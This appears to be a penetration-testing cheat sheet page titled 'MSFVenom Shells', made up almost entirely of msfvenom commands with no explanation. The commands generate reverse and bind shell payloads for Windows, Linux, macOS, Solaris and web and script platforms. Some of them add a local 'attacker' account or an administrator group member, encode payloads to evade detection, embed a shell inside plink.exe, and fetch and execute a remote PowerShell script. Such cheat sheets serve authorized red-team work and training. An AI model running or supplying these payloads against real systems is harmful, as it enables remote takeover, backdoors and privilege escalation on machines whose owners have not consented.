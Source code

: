 ```yaml
---
title: "MSFVenom Shells"
draft: false
images: []
menu:
  docs:
    parent: "Shells"
weight: 100
toc: true
---
```


## Windows

### Reverse Shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe
```
### Bind Shell
```
msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe
```
### Create User
```
msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe
```
### CMD Shell
```
msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe
```
### Execute Command
```
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe
```
```
msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe
```
### Encoder
```
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
```
### Embedded inside executable
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe
```

---
## Linux Payloads
### Reverse Shell
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf
```
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
```
### Bind Shell
```
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf
```
### SunOS (Solaris)
```
msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf
```
---
## MAC Payloads
### Reverse Shell
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho
```
### Bind Shell
```
msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho
```
---
## Web Based Payloads
### PHP
#### Reverse shell
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```
```
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
### ASP/x
#### Reverse shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
```
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
```
### JSP
#### Reverse shell
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
```
### WAR
#### Reverse Shell
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
```
### NodeJS
```
msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)
```
---
## Script Language payloads
### Perl
```
msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
```
### Python
```
msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py
```
### Bash
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw
```